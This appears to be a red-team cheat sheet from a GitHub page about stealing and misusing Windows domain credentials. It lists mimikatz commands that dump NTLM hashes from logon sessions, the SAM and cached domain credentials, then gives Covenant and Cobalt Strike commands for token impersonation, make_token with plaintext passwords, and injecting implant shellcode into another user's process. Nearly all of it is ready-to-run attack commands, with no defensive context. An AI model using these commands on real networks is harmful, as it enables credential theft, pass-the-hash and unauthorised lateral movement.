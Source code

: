 Some method to stealing, impersonating creds. These technique used to move around domain and access resource.

### LoginPasswords
This will retrive NTLM hash which can be cracked with john or hashcat or use in pass-the-hash technique.
```
> mimikatz sekurlsa::logonpasswords
```

### Retrive SAM Password
NTLM hash from SAM can be extracted with this command:
```
token::elevate lsadump::sam
```

### Domain Cached Creds
```
> Mimikatz token::elevate lsadump::cache
```


## Token Impersonation
By "impersonating" the token of a process being run by another user we effectively assume their privileges, which can be used for lateral movement.

Using covenant:
```
>ps
Pid   Ppid  Name                  SessionID  Owner         Architecture  Path
---   ----  ----                  ---------  -----         ------------  ----
4248  5284  cmd                   1          CYBER\\n.lamb  x64         C:\\Windows\\System32\\cmd.exe

>ImpersonateUser CYBER\\n.lamb
```

Using Cobalt Strike:
```
>steal_token 4248
>run_various_command_as_the_user
>rev2self
```

### Make Token
```
> MakeToken n.lamb cyberbotic.io PASSWORD ##Covenant

> make_token CYBER\n.lamb PASSWORD ##Cobalt
```


### Process Injection
Process Injection is a method for executing code in the address space of another process. This process could belong to a domain or local user, and injecting implant shellcode would allow it to run under the context of that user.

***Covenant:***
1. Get Process List with `ps`
2.  Type `inject` another window will open
3.  Provide the shellcode.bin and the PID

***Cobalt***:
`inject 4248 x64 tcp-localhost`

